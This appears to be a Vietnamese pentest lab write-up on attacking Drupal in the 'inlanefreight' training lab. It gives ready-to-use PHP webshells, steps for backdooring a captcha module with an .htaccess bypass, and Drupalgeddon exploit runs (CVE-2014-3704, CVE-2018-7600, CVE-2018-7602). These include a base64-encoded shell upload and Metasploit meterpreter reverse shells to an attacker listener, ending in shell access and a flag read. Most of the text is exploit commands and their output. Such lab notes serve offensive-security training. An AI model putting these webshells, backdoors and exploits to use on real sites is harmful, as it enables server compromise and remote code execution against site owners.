

# Attacking Drupal

Sau khi xác định Drupal và version, mục tiêu tiếp theo là tìm misconfiguration, module dễ khai thác và CVE để đạt RCE/shell.

## 1. PHP Filter Module

**Drupal < 8**

Nếu có quyền Administrator, có thể bật module PHP Filter để Drupal thực thi PHP trong nội dung.

Tạo Basic page → chọn Text format = PHP code → chèn webshell:

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```



Sau khi tạo page, ví dụ `/node/3`, có thể kiểm tra RCE:

```
curl -s "http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id"
```

>Lưu ý: dùng parameter khó đoán thay vì cmd để tránh vô tình để lại webshell dễ bị người khác khai thác.

**Drupal 8+**

PHP Filter không được cài mặc định. Có thể cài module thủ công, nhưng đây là thay đổi hệ thống nên phải được khách hàng cho phép trước.

Tải xuống bản mới nhất 

```
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Sau khi tải xuống, hãy vào `Administration` > `Reports` > `Available` updates.

Từ đây, hãy nhấp vào `Browser`, chọn tệp từ thư mục mà chúng ta đã tải xuống, rồi nhấp vào `Install`.


Sau khi kiểm thử phải:

- Disable/remove PHP Filter.
- Xóa các page đã tạo.
- Xóa mọi webshell/artifact.

## 2. Upload Backdoored Module

Nếu tài khoản có quyền upload module:

- Tải một module hợp lệ.
- Chèn PHP webshell vào module.
- Thêm `.htaccess` để bypass việc Drupal chặn truy cập trực tiếp `/modules`.
- Đóng gói lại module.
- Upload qua: `Manage → Extend → + Install new module`

Tải 1 module ví dụ capcha

```bash
reDrose18@htb[/htb]$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
reDrose18@htb[/htb]$ tar xvf captcha-8.x-1.2.tar.gz
```

Tạo một web shell PHP với nội dung sau:

```php
<?php
system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
?>
```

Tiếp theo, chúng ta cần tạo một tệp `.htaccess` để cấp quyền truy cập vào thư mục này. Điều này là cần thiết vì Drupal từ chối quyền truy cập trực tiếp vào thư mục `/modules`.

```ini
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

Sao chép cả hai tệp này vào thư mục captcha và tạo một tệp lưu trữ.

```bash
reDrose18@htb[/htb]$ mv shell.php .htaccess captcha
reDrose18@htb[/htb]$ tar cvf captcha.tar.gz captcha/
```

Sau đó chọn Install module mới đó 

Sau khi cài đặt thành công ta có 

```bash
reDrose18@htb[/htb]$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 3. Drupalgeddon – Known Vulnerabilities

Drupal từng có nhiều RCE nghiêm trọng, thường được gọi là Drupalgeddon. 

| CVE           | Tên           | Ảnh hưởng chính                                |
| ------------- | ------------- | ---------------------------------------------- |
| CVE-2014-3704 | Drupalgeddon  | Pre-auth SQL Injection → tạo admin/upload code |
| CVE-2018-7600 | Drupalgeddon2 | Pre-auth RCE                                   |
| CVE-2018-7602 | Drupalgeddon3 | Authenticated RCE                              |

## 4. Drupalgeddon – CVE-2014-3704

Ảnh hưởng Drupal: `7.0 → 7.31`

Lỗ hổng là pre-auth SQL Injection.

Có thể lợi dụng để tạo tài khoản Administrator, [script](https://www.exploit-db.com/exploits/34992):

```bash
python2.7 drupalgeddon.py \
-t http://drupal-qa.inlanefreight.local \
-u hacker \
-p pwnd
```

Nếu thành công:

```
[!] VULNERABLE!
[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
```

Sau đó đăng nhập bằng account mới và tiếp tục khai thác, ví dụ sử dụng PHP Filter để RCE.

Chúng ta cũng có thể sử dụng mô-đun Metasploit `exploit/multi/http/drupal_drupageddon` để khai thác lỗ hổng này.

## 5. Drupalgeddon2 – CVE-2018-7600

Đây là pre-authenticated RCE. [PoC](https://www.exploit-db.com/exploits/44448) 

Chạy script để upload thử file hello.txt 

```bash
reDrose18@htb[/htb]$ python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt
```

Chúng ta có thể nhanh chóng kiểm tra bằng cURL và thấy rằng tệp hello.txt đã được tải lên thành công.

```bash
reDrose18@htb[/htb]$ curl -s http://drupal-dev.inlanefreight.local/hello.txt

;-)
```

Bây giờ ta sẽ upload shell 

```php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>
```

```bash
reDrose18@htb[/htb]$ echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
```

```bash
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```

Sửa PoC để upload `mrb3n.php` lên 

```bash
reDrose18@htb[/htb]$ python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php
```

Check lại 

```bash
reDrose18@htb[/htb]$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 6. Drupalgeddon3 – CVE-2018-7602

Khác với Drupalgeddon2, Drupalgeddon3 là Authenticated RCE.

Điều kiện:

- Có tài khoản đăng nhập hợp lệ.
- User phải có quyền delete node.
- Cần lấy session cookie.

Sau khi có được cookie phiên, chúng ta có thể thiết lập mô-đun khai thác như sau.

Có thể khai thác bằng Metasploit:

```bash
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 

Module options (exploit/multi/http/drupal_drupageddon3):

   Name            Current Setting                                                                   Required  Description
   ----            ---------------                                                                   --------  -----------
   DRUPAL_NODE     1                                                                                 yes       Exist Node Number (Page, Article, Forum topic, or a Post)
   DRUPAL_SESSION  SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  yes       Authenticated Cookie Session
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.129.42.195                                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80                                                                                yes       The target port (TCP)
   SSL             false                                                                             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                                                                                 yes       The target URI of the Drupal installation
   VHOST           drupal-acc.inlanefreight.local                                                    no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   User register form with exec
```

Nếu thành công, chúng ta sẽ có được một reverse shell trên máy chủ mục tiêu.

```bash
msf6 exploit(multi/http/drupal_drupageddon3) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Token Form -> GH5mC4x2UeKKb2Dp6Mhk4A9082u9BU_sWtEudedxLRM
[*] Token Form_build_id -> form-vjqTCj2TvVdfEiPtfbOSEF8jnyB6eEpAPOSHUR2Ebo8
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:44612) at 2021-08-24 12:38:07 -0400

meterpreter > getuid

Server username: www-data (33)


meterpreter > sysinfo

Computer    : app01
OS          : Linux app01 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
```

---

Thử các CVE, ở đây lỗ hổng drupageddon được khai thác 

```bash
msf > search drupageddon

Matching Modules
================

   #  Name                                                              Disclosure Date  Rank       Check  Description
   -  ----                                                              ---------------  ----       -----  -----------
   0  exploit/multi/http/drupal_drupageddon                             2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   1    \_ target: Drupal 7.0 - 7.31 (form-cache PHP injection method)  .                .          .      .
   2    \_ target: Drupal 7.0 - 7.31 (user-post PHP injection method)   .                .          .      .


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/drupal_drupageddon
After interacting with a module you can manually set a TARGET with set TARGET 'Drupal 7.0 - 7.31 (user-post PHP injection method)'

msf > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(multi/http/drupal_drupageddon) > show options

Module options (exploit/multi/http/drupal_drupageddon):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, http, socks5h, sapni, socks4
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The target URI of the Drupal installation
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.0.5         yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Drupal 7.0 - 7.31 (form-cache PHP injection method)


View the full module info with the info, or info -d command.

msf exploit(multi/http/drupal_drupageddon) > set rhosts 10.129.208.86
rhosts => 10.129.208.86
msf exploit(multi/http/drupal_drupageddon) > set vhost drupal-qa.inlanefreight.local
vhost => drupal-qa.inlanefreight.local
msf exploit(multi/http/drupal_drupageddon) > set lhost 10.10.15.122
lhost => 10.10.15.122
msf exploit(multi/http/drupal_drupageddon) > exploit
[*] Started reverse TCP handler on 10.10.15.122:4444 
[*] Sending stage (42137 bytes) to 10.129.208.86
[*] Meterpreter session 1 opened (10.10.15.122:4444 -> 10.129.208.86:54988) at 2026-09-14 10:34:57 +0700

meterpreter > shell
Process 3408 created.
Channel 0 created.
ls
CHANGELOG.txt
COPYRIGHT.txt
INSTALL.mysql.txt
INSTALL.pgsql.txt
INSTALL.sqlite.txt
INSTALL.txt
LICENSE.txt
MAINTAINERS.txt
README.txt
UPGRADE.txt
authorize.php
cron.php
includes
index.php
install.php
misc
modules
profiles
robots.txt
scripts
sites
themes
update.php
web.config
xmlrpc.php
cd /var/www/drupal.inlanefreight.local 
ls
INSTALL.txt
LICENSE.txt
README.txt
autoload.php
composer.json
composer.lock
core
example.gitignore
flag_6470e394cbf6dab6a91682cc8585059b.txt
index.php
modules
profiles
robots.txt
sites
themes
update.php
vendor
web.config
cat flag_6470e394cbf6dab6a91682cc8585059b.txt
```


